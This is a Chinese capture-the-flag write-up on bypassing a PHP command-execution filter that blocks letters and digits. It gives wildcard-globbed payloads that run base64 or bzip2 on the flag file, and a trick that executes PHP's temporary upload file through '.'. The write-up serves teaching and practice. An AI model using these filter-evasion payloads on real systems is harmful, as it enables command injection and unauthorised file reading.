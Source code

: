 参考文章 [https://www.cnblogs.com/Dark1nt/archive/2021/06/05/14852301.html](https://www.cnblogs.com/Dark1nt/archive/2021/06/05/14852301.html)

三个思路

1. base64 base32 绕过
2. bzip2 绕过
3.  `.` 执行 PHP 文件上传缓存文件绕过

前两个的原理是它们的文件名都带有数字, 相对来说可以精确匹配 (但不同系统环境不一样, 只能碰运气, 比如我本地 wsl Ubuntu 默认匹配到的是 `/bin/X11/x86_64`)

第三个的原理可以参考 p神之前的文章 [https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

base64 绕过

```
http://770265fe-2a54-4d73-98b5-cd44b3dce236.challenge.ctf.show/?c=/???/????64 ????.???
```

bzip2 (注意路径是 /usr/bin/bzip2)

```
http://770265fe-2a54-4d73-98b5-cd44b3dce236.challenge.ctf.show/?c=/???/???/????2 ????.???
```

`.` 执行缓存文件绕过

php 上传文件时的缓存文件存储路径一般是 /tmp, 文件名为 `php[六位随机大小写字母]`, 总长度为9

Linux 使用 glob 通配符 `[@-[]` 来匹配大写字母 (ASCII 码区间)

```bash
/?c=. /???/????????[@-[]
```

这里匹配的是最后一个字符是大写字母的文件 (PHP 缓存的文件名最后一个字母**可能**是大写字母, 实际上, 6位随机字符中任意一个位置都有可能是大写字母)

其实测试一下发现, 将 `[@-[]` 放到后六位的任何一位都可以成功执行, 匹配到的概率都差不多

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208081638432.png)

这里因为 bzip2 压缩文件默认会把源文件删除, 所以只剩下 flag.php.bz2 了
